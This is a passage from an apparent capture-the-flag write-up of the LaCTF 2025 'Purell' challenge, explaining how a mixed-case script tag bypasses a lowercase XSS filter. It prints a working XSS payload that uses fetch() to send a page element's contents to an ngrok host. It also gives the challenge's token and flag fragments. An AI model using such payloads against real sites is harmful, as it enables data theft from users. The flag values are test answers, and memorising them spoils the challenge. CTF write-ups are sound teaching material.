 > ![Char Counter](/images/LaCTF-2025/Purell/charcounter.png "Char Counter") 
> 
> Since the check was done on `script` in all lowercase, I thought of modifying the payload by inserting `ScrIPt` instead of `script`:
> 
> ```html
> <ScrIPt>fetch('//c0b4-2-37-167-108.ngrok-free.app?flag='+document.querySelector('.flag').innerText)</ScrIPt>
> ```
> 
> This payload allowed me to successfully achieve the injection and bypass level 1 (the process remains the same for all levels: `injection -> link -> report -> token -> token submission`), so I won’t repeat it every time in the write-up. As we can see, I obtained the new token:
> 
> ![Ngrok Level 1](/images/LaCTF-2025/Purell/ngrok_level1.png "Ngrok Level 1")
> 
> I won’t show all the tokens sent anymore, but I’ll only include the procedure to bypass the sanitization of the payloads. By submitting the token (`purell-token{scr7ptl355_m3n4c3}`), I received the second part of the flag: `b3s7_x40ss_`. Accessing level 2, a new layer of sanitization was introduced:
>  
> ```
> Sanitizer: (html) => html.includes('script') || html.includes('on') || html.length > 150 ? 'nuh-uh' : html
> ```
> 